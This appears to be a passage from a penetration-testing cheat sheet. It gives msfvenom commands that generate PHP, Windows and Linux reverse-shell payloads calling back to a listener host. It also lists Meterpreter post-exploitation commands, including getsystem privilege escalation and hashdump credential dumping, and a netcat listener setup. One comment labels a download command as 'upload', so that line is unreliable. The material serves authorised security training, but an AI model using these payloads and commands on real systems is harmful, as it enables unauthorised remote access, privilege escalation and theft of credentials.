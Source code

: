 Standard PHP reverse shell:

```console
$ msfvenom -p php/reverse_php LHOST=<LISTENER IP> LPORT=<LISTENER PORT> -o <OUTPUT FILE NAME>
```

Windows reverse shell:

```console
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER IP> LPORT=<LISTENER PORT> -f dll > shell.dll
```

Linux reverse shell:

```console
$ msfvenom -p linux/x64/shell/reverse_tcp LHOST=<LISTENER IP> LPORT=<LISTENER PORT> -f elf > shell.elf
```

#### Meterpreter Shell Commands

```console
# background current session
meterpreter > background

# list current open sessions
meterpreter > session -l

# open session
meterpreter > session -i <SESSION NUMBER>

# privilege escalation (Windows)
meterpreter > getsystem

# list system information
meterpreter > sysinfo/route/getuid

# dump Windows hashes
meterpreter > hashdump

# upload file to system
meterpreter > download <FILE NAME> /path/to/directory
```

#### Listener with `netcat`

```console
$ nc -nvlp PORT
```

- `n`: IP addresses only (no DNS)
- `v`: verbose mode (`-vv` for very verbose)
- `l`: listen for incoming connections
- `p`: local port to listen on

For example:
